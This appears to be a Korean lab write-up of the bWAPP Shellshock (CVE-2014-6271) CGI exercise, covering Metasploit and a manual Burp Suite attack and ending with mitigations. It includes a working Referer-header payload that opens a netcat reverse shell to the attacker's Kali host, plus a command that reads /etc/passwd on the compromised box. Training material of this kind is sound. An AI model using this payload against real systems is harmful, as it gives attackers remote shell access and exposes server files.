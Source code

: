 ```yaml
---
title: "[bWAPP] 9. Using Known Vulnerable Components - Shellshock Vulnerability(CGI)"
---
```


<br>

## Using Known Vulnerable Components

- 알려진 취약점이 있는 컴포넌트 사용

- 웹 서비스를 운영하는 데 영역별로 다양한 모듈과 라이브러리 사용한다.

- 컴포넌트, 라이브러리, 프레임워크 및 다른 SW 모듈은 대부분 항상 전체권한으로 실행되는데

  이러한 취약한 컴포넌트를 악용하여 데이터 유실 및 서버 권한 획득이 가능한 취약점이다.

<br><br>

## CGI(Common Gateway Interface)

- 서버와 애플리케이션(응용 프로그램) 간에 데이터를 주고받는 방법 또는 규약
- 서버가 클라이언트로부터 요청을 수신하면, 이 요청이 처리되어야 할 경우, 서버가 애플리케이션을 실행시키고 이에 대한 응답을 받는 기능을 수행
- WAS가 없었을 당시 Web Server에서 동적 콘텐츠를 처리하기 위해 CGI를 사용했었다.

![image-20220117202937741](image-20220117202937741.png)

참조 : https://live-everyday.tistory.com/197

<br><br>

## Shellshock Vulnerability(CGI)

### GNU Bash

- 2014년 09월 24일 발견
- CVE-2014-6271

<br>

### Shellshock

- 이 취약점은 Bash 셸에서 환경 변수의 함수 선언문 뒤인 헤더에 임의의 명령어 () {:;}; 와 실행시킬 명령어를 삽입하게되면  환경변수 선언 후 뒤 명령어까지 실행되는 공격
- 공격자는 시스템의 보안을 우회하여 명령어를 실행 가능

<br>

### Bash Shell

- 사용자가 CLI 기반에서 명령어를 입력하면 OS가 이에 대응하는 동작하게 하는 명령어 해석기
- 프로세스 환경을 이용하여 다른 셸 인스턴스에 환경변수뿐 아니라 셸 함수를 선언하는 기능을 제공
- 함수 선언문에서 반복문으로 멈추지 않고 마지막까지 진행하여 추가된 셸 명령어까지 실행

<br>

### Bash Shell Bug

- Bash로 해당 명령을 실행했을 때, 그에 대응하는 결과 뿐만 아닌 다른 결과까지 실행하는 버그![image-20220117234632717](image-20220117234632717.png)

<br><br>

## bWAPP

### 문제

![image-20220122011030773](image-20220122011030773.png)

- HINT : referer 헤더를 공격하여 아래 박스를 해킹하라
- 해당 문제 메타스플로잇 모듈 : exploit/multi/http/apache_mod_cgi_bash_env_exec

<br><br>

## Kali - msfconsole

### 실행

![image-20220122011721420](image-20220122011721420.png)

![image-20220122011933450](image-20220122011933450.png)

- 공격대상 : referer

<br>

### CGI 스크립트 경로  - 개발자 도구(F12)

![image-20220122012218429](image-20220122012218429.png)

- 문제 HINT의 pwn this box 가 CGI 스크립트
- CGI 스크립트 경로 : /bWAPP/cgi-bin/shellshock.sh

<br>

### exploit - set

![image-20220122012459767](image-20220122012459767.png)

- header 는 referer
- rhosts 는 비박스 IP
- 경로 : CGI 스크립트
- check로 설정 확인

<br>

### Exploit

![image-20220122012758669](image-20220122012758669.png)

- exploit 실행
- cat 명령어로 비박스 사이트 패스워드 정보 열람

<br><br>

## Kali - BurpSuite

### Netcat

![image-20220122013021061](image-20220122013021061.png)

- netcat 명령어로 8888번 포트 열기

### BurpSuite - 1

![image-20220122013209023](image-20220122013209023.png)

- 패킷 가로챔
- Forward 눌러서 한 번 넘겨줘서 헤더의 주소가 GET /bWAPP/cgi-bin/shellshock.sh HTTP/1.1로 바뀌게하기

### BurpSuite - 2

![image-20220122013348183](image-20220122013348183.png)

- Referer에 Shellshock 공격하기위해 환경변수 명령어와 () {:;}; 입력
- Referer: () { :; }; /bin/bash -c "nc [칼리 IP] [포트 번호] -e /bin/bash"

### BurpSuite - 3

![image-20220122013603514](image-20220122013603514.png)

- Forward 후 intercept off 누르기

<br>

### Kali

![image-20220122013703893](image-20220122013703893.png)

- 변조한 패킷 보내게 되면 페이지는 계속 로딩, 칼리는 쉘이 연결됨

<br>

### 명령어 수행

![image-20220122013907098](image-20220122013907098.png)

- 비박스 서버 쉘 획득
- python -c "import pty;pty.spawn('/bin/bash')" 명령어를 통해 프롬프트 생성
- cat /etc/passwd 로 패스워드 정보 열람

## 대응방안

- 취약한 버전 4.3 이전의 Bash를 업데이트하거나 CGI 제거
- 보안장비(IDS, IPS)를 통해 Shellshock 취약점 공격 문자열인 () { 문자열을 검열하여 차단
- 서비스에서 입력 값에 대한 검증을 임시로 추가하여 대응
